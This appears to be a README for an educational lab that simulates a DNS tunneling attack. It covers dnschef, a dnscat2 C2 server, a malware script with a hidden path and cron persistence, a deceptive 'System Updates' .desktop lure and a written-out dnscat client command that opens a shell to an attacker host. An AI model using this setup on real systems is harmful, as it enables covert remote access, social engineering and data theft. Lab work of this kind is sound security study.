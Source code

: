 # DNS Tunneling Attack Simulation

This project simulates a DNS Tunneling attack using:

- **dnscat2** for command-and-control over DNS
- **dnschef** for simulating a fake DNS server
- A **malware script** as payload
- **autorun.desktop** to simulate real-world autorun behavior

## Structure

- `/setup`:
 ### A virtual lab was created using VMware with two machines:
  #### Attacker (Kali Linux 2023.1):
  -Hosts dnscat2 (C2 server) and dnschef (fake DNS server).
  #### Victim (Ubuntu 20.04):
  -Simulates a compromised system communicating via DNS tunneling.
  
- `/dnschef`: Configuration for fake DNS domain
### The attacker machine (Kali Linux) uses dnschef, a rogue DNS proxy, to intercept DNS queries from the victim.
  -Purpose: Redirect DNS queries for a fake domain (e.g., *.tunnel.local) to the attacker's IP, enabling covert C2 communication.
  
   ![image](https://github.com/user-attachments/assets/0b114df3-97b7-4f8c-bc33-74e2ead71348)

  -Domain Used: tunnel.local (custom pseudo-domain)
  
  -Listener Port: 53 (standard DNS)

  -Behavior: Replies to DNS queries with the attacker's IP instead of resolving them, enabling the victim to unknowingly connect to the dnscat2 server.
  
- `/malware`: 🐛 Malware Creation and Deployment
A custom Bash script (`malware.sh`) was developed to simulate real-world malware behavior using DNS tunneling for covert Command and Control (C2) communication.
  
   ![image](https://github.com/user-attachments/assets/bb7d4a97-c78d-40bf-bebf-fd17233af4a3)

 ### 🔒 Stealthy Deployment
  -Copies the `dnscat2` client to a hidden path: `/tmp/.dns-update`
  -Sets execution permissions for silent execution
 ### 🌐 C2 Initialization
  -Establishes a DNS-based C2 channel to the attacker's server over **UDP port 53**
  -Launches the client using:
  ./dnscat --dns server=<KALI_IP>,port=53 --secret=mysecret >/dev/null 2>&1
 ### ♻️ Persistence
   -Adds a cron job with @reboot to ensure the malware runs on every system startup
 ### 💾 Infection Method:
   -Delivered via USB drive
   
- `/dnscat2`: 🧠 dnscat2 C2 Server Setup
  To complete the DNS tunneling setup, the attacker's environment includes running both the **dnscat2 C2 server** and the **dnschef fake DNS server** in parallel.
 ### ⚙️ dnscat2 Installation & Setup
 -Installs Ruby
 
   ![image](https://github.com/user-attachments/assets/412d31fa-7da7-4a84-b466-45ad59f421d7)
    
 -Clones the dnscat2 repository from GitHub to your local machine.
    
   ![image](https://github.com/user-attachments/assets/45db2ad5-10ac-4d9e-92b7-5f52021338b4)
    
 -Change directory to the dnscat2 server folder and Installs Ruby's dependency manager Bundler
    
   ![image](https://github.com/user-attachments/assets/68e13608-4294-4269-ad63-0db40c084a6d)
    
 -installs any required Ruby gems defined in the Gemfile
    
   ![image](https://github.com/user-attachments/assets/3434ca66-218e-414c-b7f3-24b3a0abca4e)
    
 -Launches the dnscat2 server, enabling it to listen for DNS queries and manage inbound communication.
  
   ![image](https://github.com/user-attachments/assets/b6bb6cac-e639-4358-b740-28270d4a04f6)
    
   (‼️ Important: Both the dnscat2 server and dnschef must run simultaneously)
   
- `/Autorun`:💾 USB-Based Delivery via `.desktop` File
  A fake `.desktop` file is used to trick users into executing a malicious script (`malware.sh`) from a USB drive. This method simulates social engineering by mimicking a legitimate system update.
### 🧿 File Example: `System Autorun.desktop`

   ![image](https://github.com/user-attachments/assets/d376af3e-9704-4379-ae58-f985797e7dbc)

-Name=System Updates: Displays a trusted label to trick the user.

-Exec=/bin/bash /media/$USER/USB/malware.sh :Executes the hidden script from the USB.

-Icon=system-software-update: Uses a familiar system icon to avoid suspicion.

-Type=Application: Treated as an executable app.

-Terminal=false: Runs silently without opening a terminal window.
    
- `/tunnel execution`: 🎯 Execution and Session Establishment
  
  -When the victim clicks the malicious .desktop file, malware.sh is executed.
  -This triggers a DNS tunnel connection to the attacker's dnscat2 C2 server.
  -A stealthy session is created, giving the attacker remote shell access.
  
   ![image](https://github.com/user-attachments/assets/ddb593fb-d9d8-4806-aea1-7439cdf3c076)

-`/result_screen shoots`:🛠 Post-Execution Actions
### Attacker can now:
  -Run remote commands
  -Monitor user activity
  -Extract sensitive data
  
   ![image](https://github.com/user-attachments/assets/92ff7011-2ee0-4a54-ae2f-08feefc32e81)

   ![image](https://github.com/user-attachments/assets/0dc1c90a-b731-422f-9393-9239207e2e55)

   ![image](https://github.com/user-attachments/assets/f7583d55-734f-4987-b58c-1a2794e56f8b)

   ![image](https://github.com/user-attachments/assets/4a8df170-2232-41c5-ac18-2efb355f1991)

   ![image](https://github.com/user-attachments/assets/4bfa987e-5d3a-480e-824e-80595ca2ea00)

   ![image](https://github.com/user-attachments/assets/a8bac9d6-28bb-403a-be7f-ba206d0ed789)
   
   ![image](https://github.com/user-attachments/assets/be0fc7a7-7857-43f1-a04e-0635634b9e0a)
   
  ![image](https://github.com/user-attachments/assets/a3baf20d-ce75-4fd7-a715-cd4706eccf8d)

  ![image](https://github.com/user-attachments/assets/ea02f761-961a-408e-bf22-596916e91812)


## How to Run (For Educational Use Only)

> ⚠️ Warning: This is for **educational and testing purposes** only. Do not use in unauthorized environments.

1. Start `dnschef` with a fake domain.
2. Launch `dnscat2-server`.
3. Place the `autorun.desktop` on the target and simulate execution.
4. The Ruby malware connects back to the `dnscat2` server.
5. You can exfiltrate data or run commands from the server.

## Legal Notice

This project is strictly for **educational purposes** and **authorized testing labs**. Do not deploy in live or unauthorized environments.
